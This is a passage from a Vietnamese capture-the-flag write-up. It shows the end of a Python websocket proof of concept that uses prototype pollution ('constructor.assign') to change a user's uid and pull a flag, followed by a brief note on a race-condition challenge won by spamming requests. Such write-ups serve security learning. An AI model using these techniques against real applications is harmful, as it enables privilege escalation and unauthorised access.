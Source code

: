 ```
                return resp
            return None

        await communicate("constructor.assign", {"uid": 1}, False)
        await communicate("user.getInfo", {})
#        for uid in range(1, 26):
#            resp = {'pressed': False}
#            while not resp['pressed']:
#                resp = await communicate("button.press", {"id": uid})
#                await communicate("button.get", {"id": uid})

        uid = 3
        resp = {'pressed': False}
        while not resp['pressed']:
           resp = await communicate("button.press", {"id": uid})
        await communicate("button.get", {"id": uid})


if __name__ == '__main__':
    asyncio.run(main())
```

Mô tả poc đầu tiên sẽ reg new user với username và pass random tiếp theo sẽ đăng nhập và lấy ra session-id gắn vào header cookie để lấy phiên -> prototype polution với `await communicate("constructor.assign", {"uid": 1}, False)` và không nhận response từ socket -> lấy thông tin người dùng xem đã thay đổi uid thành công hay chưa -> press button nếu chưa press -> cuối cùng là get funny từ button `communicate("button.get", {"id": uid})` với uid là số thứ tự của button -> do id button random nên ta sẽ chạy từ 1 đến 25.

![image](https://hackmd.io/_uploads/SJmP7LvcC.png)


![image](https://hackmd.io/_uploads/S1FtQUw90.png)


flag : `CTFZONE{y0u_just_pr3ss3d_v3ry_funny_butt0n_378b2b63-f818-45aa-9e84-3fdb1551fedf}`


## web/breathtaking-roulette

Bài này trông có vẻ như raceconditon và chall sử dụng websocket đến chơi gungun đối kháng và nếu mình thắng thì nhận flag

![image](https://hackmd.io/_uploads/B1H_8Iv9C.png)

![image](https://hackmd.io/_uploads/S1_NPUD5R.png)

spam và dành chiến thắng